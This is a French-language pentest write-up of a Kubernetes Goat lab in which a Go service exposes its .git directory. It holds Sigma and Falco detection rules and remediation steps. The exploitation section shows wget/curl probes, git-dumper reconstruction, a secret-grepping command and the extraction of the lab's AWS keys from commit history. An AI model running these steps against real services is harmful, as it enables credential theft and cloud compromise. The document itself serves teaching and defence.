




# SC-CLD-005 — DIND (Docker-in-Docker) Exploitation — Exposed Git Repository

## Classification

| Champ | Valeur |
|-------|--------|
| **Code scénario** | SC-CLD-005 |
| **Nom** | DIND Exploitation — Exposed Git Repository in CI/CD Service |
| **Cible** | Service `build-code-service` (port 3000) → Dépôt Git exposé via HTTP |
| **VLAN** | 30 — Cloud Lab (192.168.30.0/24) |
| **Sévérité** | 🔴 Critique |
| **CVSS 3.1** | 9.1 (AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N) |
| **CWE** | CWE-538 (Insertion of Sensitive Information into Externally-Accessible File), CWE-540 (Inclusion of Sensitive Information in Source Code) |
| **MITRE ATT&CK** | T1552.001 (Unsecured Credentials: Credentials in Files), T1213 (Data from Information Repositories) |
| **Flag** | `k8s-goat-51bc78332065561b0c99280f62510bcc` |
| **Date** | 21 février 2026 |
| **Auteur** | Nadyr Chouarhi (hik3nR00t) |

---

## Résumé exécutif

### Pour un recruteur
Ce test démontre comment un **service CI/CD mal configuré** expose son répertoire Git (`.git`) via HTTP, permettant à un attaquant **sans aucune authentification** de reconstruire l'historique complet du code source et de récupérer des **credentials AWS** (access key + secret key) qui avaient été committés puis supprimés. Le développeur pensait avoir corrigé son erreur en supprimant le fichier `.env`, mais Git conserve tout l'historique. Cette vulnérabilité est exploitable depuis l'extérieur du cluster sans aucun accès préalable.

### Pour un auditeur ISO 27001 / NIS2
Non-conformité A.8.4 (Accès au code source), A.5.33 (Protection des enregistrements), A.8.9 (Gestion de la configuration). Le service web expose le répertoire `.git` contenant des credentials cloud (AWS) dans l'historique des commits. La ligne de code `app.Static("/.git", "./.git")` sert explicitement le répertoire `.git` en statique. L'absence de revue de code et de scan de secrets automatisé viole les principes de sécurité dès la conception (A.8.25).

### Pour un RSSI
Impact : compromission de credentials AWS (access key ID + secret access key) et potentiellement de toute l'infrastructure cloud associée. Le vecteur est un service CI/CD exposé sur le réseau qui sert son répertoire Git via HTTP. Aucune authentification n'est requise. Le flag `k8s_goat_flag` et les credentials AWS sont accessibles en moins de 5 requêtes HTTP. La rotation immédiate de toutes les clés AWS exposées est requise, suivie d'un audit forensique des accès AWS sur la période d'exposition.

---

## Diagramme réseau réel (IPs / Services)



---

## Kill Chain



---

## Reconnaissance

### Découverte du service

Le service Build Code est accessible via Kubernetes Goat sur le port 1231 (port-forward). La page d'accueil indique : *"This service is built using containers with CI/CD pipelines and modern toolset like Git, Docker, AWS, and many other."*

La mention de **Git** et **AWS** dans la description est un indicateur pour le pentester.

### Analyse du code source

En entrant dans le pod, le code source Go (`main.go`) révèle la vulnérabilité :

```go
app.Static("/.git", "./.git")
```

**Analyse :** Cette ligne configure le framework Fiber (Go) pour servir le répertoire `.git` en tant que fichiers statiques via HTTP. Le répertoire `.git` contient tout l'historique du dépôt : commits, branches, objets, configurations. C'est l'équivalent de donner accès au dépôt Git complet à quiconque accède au service web.

### Vérification de l'exposition HTTP (vecteur externe)

```bash
$ wget -q http://10.43.213.57:3000/.git/HEAD -O -
ref: refs/heads/master

$ wget -q http://10.43.213.57:3000/.git/config -O -
[core]
        repositoryformatversion = 0
        filemode = true
        bare = false
        logallrefupdates = true

$ wget -q http://10.43.213.57:3000/.git/refs/heads/master -O -
905dcec070d86ce60822d790492d7237884df60a
```

**Analyse :** Le `.git` est entièrement accessible sans authentification. Un attaquant peut récupérer le hash du dernier commit (`905dcec`) et reconstruire progressivement tout le dépôt en téléchargeant les objets Git un par un. Des outils automatisés comme `git-dumper` ou `GitTools` facilitent cette reconstruction.

---

## Exploitation

### Phase 1 — Historique des commits

```bash
/app # git log --oneline --all
905dcec (HEAD -> master) Final release
3292ff3 Updated the docs
7daa5f4 updated the endpoints and routes
d7c173a Inlcuded custom environmental variables
bb2967a Added ping endpoint
599f377 Basic working go server with fiber
4dc0726 Initial commit with README
```

**Analyse :** 7 commits au total. Le commit `d7c173a` — *"Included custom environmental variables"* — est immédiatement suspect. Le nom suggère l'ajout de variables d'environnement, souvent utilisées pour stocker des credentials.

### Phase 2 — Extraction des credentials

```bash
/app # git --no-pager show d7c173a
commit d7c173ad183c574109cd5c4c648ffe551755b576
Author: Madhu Akula <madhu.akula@hotmail.com>
Date:   Fri Nov 6 23:31:06 2020 +0100

    Inlcuded custom environmental variables

diff --git a/.env b/.env
new file mode 100644
index 0000000..b9e2b45
--- /dev/null
+++ b/.env
@@ -0,0 +1,5 @@
+[build-code-aws]
+aws_access_key_id = AKIVSHD6243H22G1KIDC
+aws_secret_access_key = cgGn4+gDgnriogn4g+34ig4bg34g44gg4Dox7c1M
+k8s_goat_flag = k8s-goat-51bc78332065561b0c99280f62510bcc
```

**Analyse :** Le fichier `.env` contient des credentials AWS en clair et un flag. Le format `[build-code-aws]` ressemble à un profil AWS CLI (`~/.aws/credentials`), ce qui confirme que ces credentials donnent accès à l'infrastructure cloud.

### Phase 3 — Chronologie de l'erreur du développeur

```bash
# Commit d7c173a — Le développeur AJOUTE le .env avec les credentials
/app # git --no-pager show d7c173a --stat
 .env | 5 +++++
 1 file changed, 5 insertions(+)

# Commit 7daa5f4 — Le développeur SUPPRIME le .env pensant corriger son erreur
/app # git --no-pager show 7daa5f4 --stat
 .env             |   5 --
 go.mod           |   5 +-
 go.sum           | 471 +++++++++++++++++++++++++++++++++++++++
 main.go          |  25 ++++++----
 views/index.html |  48 ++++++++++++++++++
 5 files changed, 539 insertions(+), 15 deletions(-)

# Commit 905dcec — "Final release" — Le développeur compile et publie
/app # git --no-pager show 905dcec --stat
 app | Bin 0 -> 11773672 bytes
 1 file changed, 0 insertions(+), 0 deletions(-)
```

**Chronologie de l'erreur :**

| Étape | Commit | Action du développeur | Conséquence sécurité |
|-------|--------|----------------------|---------------------|
| 1 | `d7c173a` | Ajoute `.env` avec AWS credentials | ⚠️ Credentials dans Git |
| 2 | `7daa5f4` | Supprime `.env` du répertoire de travail | ❌ Credentials toujours dans l'historique |
| 3 | `905dcec` | "Final release" — compile le binaire Go | ❌ `.git` embarqué dans l'image Docker |
| 4 | Déploiement | `app.Static("/.git", "./.git")` sert le `.git` via HTTP | 🔴 Credentials accessibles depuis le réseau |

**Le piège :** Supprimer un fichier dans Git ne supprime que la **dernière version**. L'historique complet reste dans les objets Git. Pour vraiment supprimer un secret de Git, il faut utiliser `git filter-branch` ou `BFG Repo-Cleaner` pour réécrire l'historique, puis forcer un `git push --force`.

### Phase 4 — Vecteur d'attaque externe

Un attaquant **sans aucun accès au cluster** peut exploiter cette vulnérabilité en 4 étapes :

```bash
# 1. Détecter le .git exposé
curl -s http://target:3000/.git/HEAD
# → ref: refs/heads/master

# 2. Utiliser git-dumper pour reconstruire le dépôt
git-dumper http://target:3000/.git/ ./dumped-repo

# 3. Parcourir l'historique
cd dumped-repo
git log --oneline --all
git log -p | grep -i "password\|secret\|key\|token\|api"

# 4. Extraire les credentials
git show d7c173a
```

**Analyse :** L'attaque est entièrement réalisable depuis l'extérieur, sans authentification, sans exploiter de vulnérabilité applicative. Le `.git` est servi volontairement par le code de l'application. Des outils comme `git-dumper`, `GitTools`, ou même `wget` en mode récursif suffisent pour reconstruire le dépôt.

---

## Données exfiltrées

| Donnée | Source | Valeur | Criticité |
|--------|--------|--------|-----------|
| **AWS Access Key ID** | `.env` (commit `d7c173a`) | `AKIVSHD6243H22G1KIDC` | 🔴 Critique |
| **AWS Secret Access Key** | `.env` (commit `d7c173a`) | `cgGn4+gDgnriogn4g+34ig4bg34g44gg4Dox7c1M` | 🔴 Critique |
| **Flag** | `.env` (commit `d7c173a`) | `k8s-goat-51bc78332065561b0c99280f62510bcc` | 🔴 Critique |
| Code source complet | Tous les commits | Application Go (Fiber), routes, configuration | 🟡 Moyen |
| Historique des commits | `.git/logs` | Auteur, dates, messages de commit | 🟡 Moyen |
| Email du développeur | Git log | `madhu.akula@hotmail.com` | 🟡 Moyen |

---

## Impact technique

Un attaquant qui exploite cette vulnérabilité obtient :

1. **Accès complet à l'infrastructure AWS** — Les credentials AWS (access key + secret key) permettent d'accéder à tous les services AWS autorisés pour ce compte : EC2, S3, RDS, Lambda, IAM. En fonction des permissions du profil `build-code-aws`, l'attaquant peut lire, modifier ou supprimer des données, créer de nouvelles ressources, ou escalader ses privilèges via IAM.

2. **Code source de l'application** — Le dépôt Git complet permet de comprendre l'architecture de l'application, identifier d'autres vulnérabilités, et préparer des attaques ciblées.

3. **Informations d'identité** — L'email du développeur et l'historique des commits donnent des informations pour du spear-phishing ciblé ou de l'ingénierie sociale.

4. **Vecteur de supply chain** — Si les credentials AWS donnent accès au registre d'images Docker (ECR), l'attaquant peut modifier les images de production et injecter du code malveillant dans le pipeline CI/CD.

---

## Impact métier — MediaTech Groupe SA

### Estimation financière

| Impact | Estimation | Justification |
|--------|-----------|---------------|
| **Compromission infrastructure cloud** | 1 000 000 € à 5 000 000 € | Les credentials AWS donnent accès à l'infrastructure cloud complète : données clients, bases de données, services de production. |
| **Amende RGPD** | 500 000 € à 4 000 000 € | Si les credentials AWS permettent d'accéder à des données personnelles (S3, RDS), violation RGPD Art. 83(4). |
| **Supply chain attack** | 500 000 € à 3 000 000 € | Si l'attaquant modifie les images Docker via ECR, toute la chaîne de production est compromise. |
| **Investigation forensique** | 100 000 € à 300 000 € | Audit complet des accès AWS (CloudTrail), rotation de toutes les clés, revue du code source, analyse des images Docker. |
| **Atteinte réputationnelle** | 500 000 € à 2 000 000 € | Fuite du code source + credentials cloud = perte de confiance des clients et partenaires. |
| **TOTAL estimé** | **2 600 000 € à 14 300 000 €** | |

### Impact réglementaire

- **RGPD** — Violation des articles 5(1)(f) (intégrité et confidentialité), 32 (mesures techniques — gestion des secrets). Les credentials cloud stockées en clair dans un dépôt Git accessible publiquement constituent une mesure technique inadéquate.
- **NIS2** — Non-conformité Article 21 (sécurité de la chaîne d'approvisionnement). L'exposition du pipeline CI/CD met en danger toute la chaîne de production logicielle.
- **ISO 27001** — Non-conformité A.8.4 (Accès au code source), A.5.33 (Protection des enregistrements), A.8.9 (Gestion de la configuration), A.8.25 (Cycle de vie de développement sécurisé).

### Top 5 actions prioritaires

**0–24h (urgence)**

1. Rotation immédiate de toutes les clés AWS exposées dans l'historique Git — invalider les access key ID via la console IAM et auditer CloudTrail pour détecter toute utilisation frauduleuse.
2. Supprimer ou reconfigurer le service `build-code-service` pour ne plus exposer le répertoire `.git` via HTTP.

**Sous 1 semaine**

3. Ajouter `.git` et `.env` au `.dockerignore` dans tous les projets — empêcher toute inclusion dans les images Docker futures.
4. Intégrer un **scanner de secrets dans la CI/CD** (Gitleaks, truffleHog) avec blocage automatique avant tout merge ou build d'image.

**Sous 1 mois**

5. Migrer tous les secrets vers **HashiCorp Vault ou AWS Secrets Manager** — zéro secret en clair dans le code source, les variables d'environnement ou les images Docker.

### Décisions attendues du COMEX

- **Déclencher une évaluation d'impact RGPD** — si les credentials AWS permettaient d'accéder à des données personnelles (S3, RDS), la violation est notifiable à la CNIL sous 72h.
- **Valider un budget** pour l'intégration de scanners de secrets dans tous les pipelines CI/CD et le déploiement d'un gestionnaire de secrets centralisé (HashiCorp Vault).
- **Nommer un sponsor** (DSI / RSSI) et un responsable opérationnel (Lead DevSecOps) pour piloter la rotation des credentials et la sécurisation du pipeline CI/CD.
- **Mandater un audit du parc CI/CD complet** de MediaTech Groupe SA — identifier tous les services qui exposent des répertoires `.git` ou embarquent des secrets dans des images Docker.
- **Mettre en place une politique SDLC formelle** : formation obligatoire des développeurs sur les risques de credential leakage, revue de code avec contrôle secrets avant chaque merge request.

---

## Matrice de risque



---

## Détection SOC / SIEM

### Logs exploitables

| Source | Log | Indicateur |
|--------|-----|------------|
| **Access logs web (Fiber/Go)** | `GET /.git/HEAD`, `GET /.git/config` | Accès au répertoire `.git` via HTTP |
| **AWS CloudTrail** | API calls avec la clé `AKIVSHD6243H22G1KIDC` | Utilisation de credentials compromises |
| **WAF / Reverse proxy** | Pattern `/.git/` dans les URLs | Tentative d'accès au dépôt Git |
| **Kubernetes Audit Log** | Pod `build-code-deployment` réseau sortant | Exfiltration de données |
| **IDS/Snort** | Trafic HTTP contenant des réponses Git objects | Téléchargement massif d'objets Git |

### Règles Sigma

```yaml
# Sigma Rule 1 — Accès au répertoire .git via HTTP
title: HTTP Access to Exposed Git Repository
id: sc-cld-005-001
status: experimental
description: Détecte les requêtes HTTP vers un répertoire .git exposé sur un serveur web
logsource:
    category: webserver
    product: any
detection:
    selection:
        cs-uri-stem|contains:
            - '/.git/HEAD'
            - '/.git/config'
            - '/.git/objects'
            - '/.git/refs'
            - '/.git/logs'
    condition: selection
level: high
tags:
    - attack.credential_access
    - attack.t1552.001
    - attack.reconnaissance
    - attack.t1213
falsepositives:
    - Outils de développement légitimes accédant au dépôt
    - Scans de sécurité internes
---

# Sigma Rule 2 — Téléchargement massif d'objets Git
title: Mass Download of Git Objects via HTTP
id: sc-cld-005-002
status: experimental
description: Détecte un téléchargement massif d'objets Git indiquant une reconstruction de dépôt
logsource:
    category: webserver
    product: any
detection:
    selection:
        cs-uri-stem|contains: '/.git/objects/'
    condition: selection | count() > 20
    timeframe: 5m
level: critical
tags:
    - attack.collection
    - attack.t1213
---

# Sigma Rule 3 — Utilisation de credentials AWS compromises
title: AWS API Calls with Compromised Access Key
id: sc-cld-005-003
status: experimental
description: Détecte l'utilisation d'une clé AWS marquée comme compromise
logsource:
    product: aws
    service: cloudtrail
detection:
    selection:
        userIdentity.accessKeyId:
            - 'AKIVSHD6243H22G1KIDC'
    condition: selection
level: critical
tags:
    - attack.initial_access
    - attack.t1078.004
```

### Règle Falco

```yaml
- rule: HTTP Access to Git Repository
  desc: Détecte l'accès HTTP au répertoire .git d'un service web dans le cluster
  condition: >
    evt.type in (accept, connect) and
    fd.sport = 3000 and
    fd.sip != "127.0.0.1" and
    container.name = "build-code"
  output: >
    WARNING: External access to build-code service
    (container=%container.name pod=%k8s.pod.name
     src=%fd.cip sport=%fd.sport connection=%fd.name)
  priority: WARNING
  tags: [k8s, cicd, credential_access, T1552.001]
```

### Indicateurs de compromission (IOC)

| Type | Valeur | Description |
|------|--------|-------------|
| **URL pattern** | `GET /.git/HEAD` | Premier indicateur de reconnaissance .git |
| **URL pattern** | `GET /.git/objects/*/*` | Téléchargement d'objets Git (reconstruction) |
| **AWS Access Key** | `AKIVSHD6243H22G1KIDC` | Clé compromise — à révoquer immédiatement |
| **User-Agent** | `git-dumper`, `GitTools`, `wget` en mode récursif | Outils de reconstruction de dépôt Git |
| **Commit hash** | `d7c173ad183c574109cd5c4c648ffe551755b576` | Commit contenant les credentials |
| **Email** | `madhu.akula@hotmail.com` | Identité du développeur (cible phishing) |

---

## Remédiation — Secure by Design

### Immédiat (24h) — Stopper l'exposition

1. **Supprimer la ligne qui expose le `.git`** dans le code source :

```go
// AVANT (vulnérable)
app.Static("/.git", "./.git")

// APRÈS (sécurisé) — Supprimer complètement cette ligne
// Ne JAMAIS servir de répertoires cachés en statique
```

2. **Révoquer immédiatement les credentials AWS** :

```bash
# Depuis la console AWS IAM
aws iam delete-access-key --access-key-id AKIVSHD6243H22G1KIDC --user-name build-code-service
aws iam create-access-key --user-name build-code-service
```

3. **Auditer les accès AWS** avec CloudTrail :

```bash
aws cloudtrail lookup-events \
  --lookup-attributes AttributeKey=AccessKeyId,AttributeValue=AKIVSHD6243H22G1KIDC \
  --start-time 2020-11-06 \
  --end-time $(date -I)
```

4. **Nettoyer l'historique Git** avec BFG Repo-Cleaner :

```bash
# Supprimer le fichier .env de TOUT l'historique
bfg --delete-files .env repo.git
cd repo.git
git reflog expire --expire=now --all
git gc --prune=now --aggressive
git push --force
```

### Court terme (1 semaine) — Prévention

5. **Ajouter `.git` au `.dockerignore`** pour ne pas l'inclure dans les images Docker :

```
.git
.env
*.key
*.pem
```

6. **Déployer un scan de secrets dans le pipeline CI/CD** :

```yaml
# GitLab CI — exemple avec Gitleaks
secret-scan:
  stage: test
  image: zricethezav/gitleaks:latest
  script:
    - gitleaks detect --source . --verbose
  allow_failure: false
```

7. **Configurer un pre-commit hook** pour bloquer les commits avec des secrets :

```bash
# Installation de pre-commit avec gitleaks
pip install pre-commit
cat > .pre-commit-config.yaml << 'EOF'
repos:
  - repo: https://github.com/gitleaks/gitleaks
    rev: v8.18.0
    hooks:
      - id: gitleaks
EOF
pre-commit install
```

8. **Configurer le WAF/Ingress** pour bloquer les accès aux répertoires cachés :

```yaml
# Traefik IngressRoute — bloquer /.git
apiVersion: traefik.io/v1alpha1
kind: Middleware
metadata:
  name: block-git-access
spec:
  replacePathRegex:
    regex: "^/\\.git.*"
    replacement: "/403"
```

### Moyen terme (1 mois) — Architecture sécurisée

9. **Utiliser un gestionnaire de secrets** (AWS Secrets Manager, HashiCorp Vault) au lieu de fichiers `.env` :

```go
// Au lieu de lire un .env
// Utiliser AWS Secrets Manager
import "github.com/aws/aws-sdk-go/service/secretsmanager"
```

10. **Implémenter des builds multi-stage** dans le Dockerfile pour ne pas inclure le code source dans l'image finale :

```dockerfile
# Stage 1 — Build
FROM golang:1.21-alpine AS builder
WORKDIR /build
COPY . .
RUN go build -o app .

# Stage 2 — Runtime (pas de .git, pas de code source)
FROM alpine:3.18
WORKDIR /app
COPY --from=builder /build/app .
COPY --from=builder /build/views ./views
CMD ["./app"]
```

11. **Rotation automatique des credentials AWS** via IAM et Secrets Manager.

12. **Audit trimestriel** des images Docker avec Trivy/Grype pour détecter les secrets embarqués.

---

## Architecture cible sécurisée — Pipeline CI/CD



---

## Comparaison — Vulnérable vs Sécurisé

| Aspect | Configuration vulnérable | Configuration sécurisée |
|--------|--------------------------|------------------------|
| **Code source** | `app.Static("/.git", "./.git")` | Ligne supprimée, WAF bloque `/.git` |
| **Secrets** | Fichier `.env` dans le dépôt Git | Vault/Secrets Manager, injection runtime |
| **Image Docker** | Contient `.git`, `.env`, code source | Multi-stage, binaire seul, `.dockerignore` |
| **Pipeline CI/CD** | Aucun scan de secrets | Gitleaks + Trivy + pre-commit hooks |
| **Historique Git** | Credentials dans les anciens commits | BFG Repo-Cleaner + rotation des clés |
| **Monitoring** | Aucun log d'accès au `.git` | WAF logs + Falco + CloudTrail |

---

## Statistiques réelles

| Source | Statistique | Année |
|--------|-------------|-------|
| GitGuardian State of Secrets Sprawl | 12.8 millions de nouveaux secrets détectés dans les commits publics GitHub | 2024 |
| GitGuardian | 1 commit sur 10 expose un secret dans les dépôts privés | 2024 |
| IBM Cost of a Data Breach | Les brèches impliquant des credentials compromises coûtent en moyenne 4.81M$ et prennent 292 jours à détecter | 2024 |
| Snyk | 80% des images Docker contiennent au moins une vulnérabilité critique | 2024 |
| Red Hat State of K8s Security | 45% des organisations ont subi un incident de sécurité lié à leur pipeline CI/CD | 2024 |

---

## Références

| Référence | Lien |
|-----------|------|
| MITRE ATT&CK T1552.001 — Credentials in Files | https://attack.mitre.org/techniques/T1552/001/ |
| MITRE ATT&CK T1213 — Data from Information Repositories | https://attack.mitre.org/techniques/T1213/ |
| CWE-538 — Sensitive Information in Externally-Accessible File | https://cwe.mitre.org/data/definitions/538.html |
| CWE-540 — Sensitive Information in Source Code | https://cwe.mitre.org/data/definitions/540.html |
| Gitleaks — Secret Scanner | https://github.com/gitleaks/gitleaks |
| BFG Repo-Cleaner | https://rtyley.github.io/bfg-repo-cleaner/ |
| git-dumper — Dump exposed .git repositories | https://github.com/arthaud/git-dumper |
| GitGuardian State of Secrets Sprawl | https://www.gitguardian.com/state-of-secrets-sprawl-report |
| AWS IAM Best Practices | https://docs.aws.amazon.com/IAM/latest/UserGuide/best-practices.html |
| Kubernetes Goat — DIND Scenario | https://madhuakula.com/kubernetes-goat/ |

---

---

*HikenRoot Forge — SC-CLD-005 — hik3nR00t — Février 2026*
